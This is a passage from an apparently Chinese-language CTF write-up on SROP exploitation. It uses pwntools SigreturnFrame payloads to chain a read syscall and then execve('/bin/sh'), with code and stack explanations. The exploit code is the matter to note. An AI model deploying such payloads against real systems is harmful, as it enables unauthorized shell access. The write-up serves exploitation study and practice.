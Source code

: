     成功得到栈地址
    
-   使用 pwntools 的 SigreturnFrame 构造 read(0,stack\_addr,0x400)
    
    ```plain
    #构造 frame，表示 read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    ```
    
    因为程序是重新在 main\_addr 开始执行，发送 payload 后使用 read 函数将 payload 写入栈中，此时的栈情况如图<5>
    
    此时的 esp 指向的是我们写入的 main\_addr,ret 后程序继续返回到 main\_addr，而 esp 指向的是下一个地址，程序继续调用 read 函数，我们发送 payload 写入栈中
    
    ```plain
    #通过控制输入的字符数量，调用 sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    
    此时的栈情况如图<6>：
    
    esp 指向我们写入的 syscall\_addr 地址，由于我们成功写入了 15 个字符，故此时的 eax 为 15，程序 ret 返回到 syscall\_addr 处进行系统调用，此时的系统调用号存储在 eax 正好是 15，调用 sigreturn，根据 frame 设定的结构，程序接下来会执行 read(0,stack\_addr,0x400)
    
-   使用 pwntools 的 SigreturnFrame 构造 shell
    
    此时函数执行的是 read(0,stack\_addr,0x400)，需要等待我们的输入，我们继续构造 frame(execve)
    
    ```plain
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh 字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    ```
    
    将 payload 写入到栈中，此时的栈情况如图<7>
    
    此时 esp 指向的是我们写入的 main\_addr，执行 ret，返回至 main\_addr，而 esp 指向下一个地址，即 p64(0) 处，继续调用 read，等待我们输入 payload
    
    ```plain
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    